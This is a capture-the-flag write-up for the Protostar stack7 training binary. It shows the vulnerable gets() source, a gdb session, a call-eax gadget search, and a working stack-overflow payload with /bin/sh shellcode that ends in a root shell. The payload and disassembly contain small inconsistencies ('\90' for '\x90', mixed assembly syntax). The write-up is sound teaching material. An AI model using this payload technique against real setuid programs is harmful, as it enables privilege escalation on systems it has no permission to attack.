 #### Protostar Stack7

##### About
Stack6 introduces return to .text to gain code execution.  
  
The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.  
  
This level is at /opt/protostar/bin/stack7

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

This challenge can be solve with the same way which used in Stack6, return to .text, ROP, and so on.  
  
With the usage of strdup() in getpath(), I choose a simple and stable way which known as call/jmp register.  
  
Other ways to solve this challenge can be found in references.

##### Solution
```
$ gdb stack7
......
(gdb) disas getpath
Dump of assembler code for function getpath:
0x080484c4 <+0>:    push   %ebp
0x080484c5 <+1>:    mov    %esp,%ebp
0x080484c7 <+3>:    sub    $0x68,%esp
0x080484ca <+6>:    mov    $0x8048620,%eax
0x080484cf <+11>:   mov    %eax,(%esp)
0x080484d2 <+14>:   call   0x80483e4 <printf@plt>
0x080484d7 <+19>:   mov    0x8049780,%eax
0x080484dc <+24>:   mov    %eax,(%esp)
0x080484df <+27>:   call   0x80483d4 <fflush@plt>
0x080484e4 <+32>:   lea    -0x4c(%ebp),%eax
0x080484e7 <+35>:   mov    %eax,(%esp)
0x080484ea <+38>:   call   0x80483a4 <gets@plt>
0x080484ef <+43>:   mov    0x4(%ebp),%eax         ; <-- put the return address to the stack, so
0x080484f2 <+46>:   mov    %eax,-0xc(%ebp)        ; <-- the value of the return address will occur twice
......
0x08048538 <+116>:  lea    eax,[ebp-0x4c]         ; <-- put the buffer's address to EAX, try to call it
0x0804853b <+119>:  mov    DWORD PTR [esp],eax
0x0804853e <+122>:  call   0x80483f4 <strdup@plt>
0x08048543 <+127>:  leave  
0x08048544 <+128>:  ret      
End of assembler dump.
......
(gdb) b *0x080484ef
Breakpoint 1 at 0x080484ef: file stack7/stack7.c, line 15.
(gdb) r
Input path please: AAAAAAAAAAAAAAAA
Breakpoint 1, getpath() at stack7/stack7.c:15
(gdb) x/2x $ebp
0xbffffd18:     0xbffffd28      0x08048550
(gdb) x/28x $esp
0xbffffcb0:     0xbffffccc      0x00000000      0xb7fe1b28      0x00000001
0xbffffcc0:     0x00000000      0x00000001      0xb7fff8f8      0x41414141
0xbffffcd0:     0x41414141      0x41414141      0x41414141      0xb7eada00
0xbffffce0:     0xb7fd7ff4      0x0804973c      0xb7fffcf8      0x08048380
0xbffffcf0:     0xb7ff1040      0x0804973c      0xb7fffd28      0x08048589
0xbffffd00:     0xb7fd8304      0xb7fd7ff4      0x08048570      0xbffffd28
0xbffffd10:     0xb7ec6365      0xb7ff1040      0xb7fffd28      0x08048550
(gdb) quit

root@Kali:/tmp# msfelfscan -j EAX ./stack7          <-- I use sftp to get stack7 onto Kali, then use msfelfscan
[./stack7]
0x080484bf call eax
0x080485eb call eax

$ cat script.sh
#!/bin/sh
python -c "print '\90'*62+'\xeb\x14'+'\90'*16+'\xbf\x84\x04\x08'+'\x90'*20+'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'" > /tmp/payload

$ ./script.sh
......
$ ./stack7 < /tmp/payload
......
# whoami
root
```

##### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>  
<https://thesprawl.org/research/exploit-exercises-protostar-stack/#stack-7>  
<https://www.mattandreko.com/2012/01/09/exploit-exercises-protostar-stack-7/>

